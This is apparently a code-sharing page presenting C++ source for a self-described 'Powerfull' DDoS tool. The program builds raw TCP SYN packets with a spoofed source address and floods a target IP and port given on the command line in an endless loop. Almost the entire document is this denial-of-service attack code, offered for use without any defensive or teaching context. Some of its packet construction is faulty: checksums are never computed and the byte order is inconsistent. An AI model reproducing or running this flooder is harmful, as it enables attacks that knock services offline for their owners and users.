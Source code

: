 # Powerfull C++ DDos-tool
# C++ DDOS TOOL                                                                       zer0sec
 
 
 
 

#include <iostream>
#include <cstring>
#include <cstdlib>
#include <arpa/inet.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>

#define PACKET_SIZE 4096

using namespace std;

int main(int argc, char* argv[]) {
    if (argc < 3) {
        cout << "Usage: " << argv[0] << " <target IP> <target port>" << endl;
        return 1;
    }

    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
    if (sock < 0) {
        cout << "Failed to create socket" << endl;
        return 1;
    }

    const char* target_ip = argv[1];
    uint16_t target_port = atoi(argv[2]);

    sockaddr_in sin;
    sin.sin_family = AF_INET;
    sin.sin_port = htons(target_port);
    sin.sin_addr.s_addr = inet_addr(target_ip);

    char packet[PACKET_SIZE];
    memset(packet, 0, PACKET_SIZE);

    iphdr* iph = (iphdr*)packet;
    tcphdr* tcph = (tcphdr*)(packet + sizeof(iphdr));

    iph->version = 4;
    iph->ihl = 5;
    iph->tos = 0;
    iph->tot_len = sizeof(iphdr) + sizeof(tcphdr);
    iph->id = htonl(54321);
    iph->frag_off = 0;
    iph->ttl = 255;
    iph->protocol = IPPROTO_TCP;
    iph->check = 0;
    iph->saddr = inet_addr("192.168.1.1");
    iph->daddr = sin.sin_addr.s_addr;

    tcph->source = htons(1234);
    tcph->dest = htons(target_port);
    tcph->seq = 0;
    tcph->ack_seq = 0;
    tcph->doff = 5;
    tcph->syn = 1;
    tcph->window = htons(32767);
    tcph->check = 0;
    tcph->urg_ptr = 0;

    sockaddr_in sin2;
    sin2.sin_family = AF_INET;
    sin2.sin_port = htons(80);
    sin2.sin_addr.s_addr = inet_addr("192.168.1.1");

    while (true) {
        if (sendto(sock, packet, sizeof(iphdr) + sizeof(tcphdr), 0, (sockaddr*)&sin, sizeof(sin)) < 0) {
            cout << "Failed to send packet" << endl;
            break;
        }

        if (sendto(sock, packet, sizeof(iphdr) + sizeof(tcphdr), 0, (sockaddr*)&sin2, sizeof(sin2)) < 0) {
            cout << "Failed to send packet" << endl;
            break;
        }
    }

    return 0;
}
